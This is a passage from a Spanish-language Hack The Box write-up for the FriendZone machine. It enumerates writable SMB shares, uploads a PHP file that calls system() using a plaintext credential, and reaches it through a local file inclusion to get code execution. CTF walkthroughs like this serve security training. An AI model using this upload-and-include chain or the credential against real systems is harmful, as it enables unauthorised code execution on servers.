 Bueno si nos ponemos a pensar mediante **SMB** podemos subir archivos en un recurso compartido a nivel de red ya que tenemos capacidad de escritura y lectura y como en la ruta `https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=algo` le esta concatenando el **.php** podemos subir un archivo que contenga código en **php** para ver si lo interpreta y apuntaremos al archivo mediante el **LFI**  pero bueno la gran pregunta bajo que ruta lo sube bueno si revisamos con **smbmap** esto 

```bash
❯ smbmap -H 10.10.10.123
[+] Guest session   	IP: 10.10.10.123:445	Name: friendzone.red                                    
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	Files                                             	NO ACCESS	FriendZone Samba Server Files /etc/Files
	general                                           	READ ONLY	FriendZone Samba Server Files
	Development                                       	READ, WRITE	FriendZone Samba Server Files
	IPC$                                              	NO ACCESS	IPC Service (FriendZone server (Samba, Ubuntu))
```

Nos esta diciendo que la ruta **Files** esta bajo la ruta **/etc/Files** entonces lo mas probable es que también la ruta donde podemos escribir podremos ver lo que hay en **/etc/Development** así que vamos a hacer una prueba 

```bash
❯ touch xd.php
❯ nano xd.php
❯ catn xd.php
<?php
	system("whoami");
?>
```

Ahora lo subimos 

```bash
❯ smbclient //10.10.10.123/Development -U admin%WORKWORKHhallelujah@#
Try "help" to get a list of possible commands.
smb: \> put xd.php
putting file xd.php as \xd.php (0.1 kb/s) (average 0.1 kb/s)
smb: \> 
```

Y si verificamos funciona

![](/assets/images/htb-writeup-friendzone/web16.png)
